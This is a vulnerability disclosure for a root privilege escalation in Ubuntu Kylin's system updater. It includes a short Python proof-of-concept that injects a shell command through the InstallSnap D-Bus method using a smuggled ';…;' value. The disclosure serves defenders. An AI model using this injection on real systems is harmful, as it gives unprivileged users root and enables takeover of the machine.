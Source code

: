# UbuntuKylin OS privilege escalation vulnerability

Author: cn-lwj（cn_lwj@163.com）\
Unit: Ubuntukylin.（https://www.ubuntukylin.com/index-en.html）

## Report
### Describe
There is a command injection vulnerability in the InstallSnap function in the update component (Kylin-system-updater) of the Ubuntu Kylin OS system. Any user can call the vulnerability, causing ordinary users to obtain root privileges through the vulnerability.

### Hazard level
High
### Affected version
- Ubuntukylin：kylin-system-updater <= 1.4.20kord

### POC&&EXP
ISO Download:\
https://www.ubuntukylin.com/downloads/download.php?id=91

exp.py
```
import dbus
import os

payload  = ';touch /InstallSnap.txt;'
bus=dbus.SystemBus()
xattr=bus.get_object('com.kylin.systemupgrade','/com/kylin/systemupgrade')
iface=dbus.Interface(xattr,dbus_interface='com.kylin.systemupgrade.interface')
prop=iface.InstallSnap("{}".format(payload))
print(prop)
os.system("ls -l /InstallSnap.txt")
```

### example
![1.png](../imgs/1.png)

